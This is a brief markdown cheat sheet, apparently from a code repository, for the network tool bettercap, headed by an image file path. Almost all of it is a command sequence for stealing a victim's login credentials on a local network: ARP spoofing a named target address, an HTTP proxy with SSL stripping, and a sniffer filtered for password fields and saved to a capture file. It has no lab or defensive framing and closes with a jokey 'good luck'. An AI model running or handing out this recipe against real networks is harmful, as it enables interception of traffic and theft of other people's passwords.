 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 192.168.1.6
arp.spoof on
http.proxy on
net.sniff on
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
```

# Dood luck ;)
